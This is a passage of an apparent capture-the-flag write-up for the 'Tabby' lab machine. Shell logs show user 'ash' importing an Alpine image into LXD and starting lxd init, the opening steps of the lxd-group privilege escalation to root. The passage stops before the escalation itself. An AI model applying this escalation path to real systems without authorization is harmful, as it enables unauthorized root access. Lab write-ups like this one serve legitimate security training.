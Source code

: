 and we get it 
```shell 
ash@tabby:~$ ls 
ls 
alpine-v3.12-x86_64-20201107_0534.tar.gz  user.txt
```

We have come to the end of the road
Next is the process that we did to get root 
let's start

```shell
ash@tabby:~$ ls 
ls 
alpine-v3.12-x86_64-20201107_0534.tar.gz  snap  user.txt
ash@tabby:~$ lxc image import ./alpine-v3.12-x86_64-20200621_2204.tar.                                         
lxc image import ./alpine-v3.12-x86_
Error: open ./alpine-v3.12-x86_: no such file or directory
ash@tabby:~$ lxc image import ./alpine-v3.12-x86_64-20201107_0534.tar.gz --alias liquid
<ne-v3.12-x86_64-20201107_0534.tar.gz --alias liquid

ash@tabby:~$ lxc image list
lxc image list
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE         |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
| liquid | 6fa64fa82f78 | no     | alpine v3.12 (20201107_05:34) | x86_64       | CONTAINER | 3.04MB | Nov 7, 2020 at 4:13am (UTC) |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+-----------------------------+
ash@tabby:~$ lxd init
lxd init                                                                                                                                                     
Would you like to use LXD clustering? (yes/no) [default=no]: no                                                                                              
no                                                                                                                                                           
Do you want to configure a new storage pool? (yes/no) [default=yes]: yes                                                                                     
yes                                                                                                                                                                                         
Name of the new storage pool [default=default]:                                                                                                                                             
                                                                                                                                                                                            
Name of the storage backend to use (btrfs, dir, lvm, ceph) [default=btrfs]: dir                                                                                                             
dir                                                                                                                                                                                         
Would you like to connect to a MAAS server? (yes/no) [default=no]: no                                                                                                                       
no                                                                                                                                                                                          
Would you like to create a new local network bridge? (yes/no) [default=yes]: yes                                                                                                            
yes                                                                                                                                                                                                              
What should the new bridge be called? [default=lxdbr0]: liquid                                                                                                                                                   
```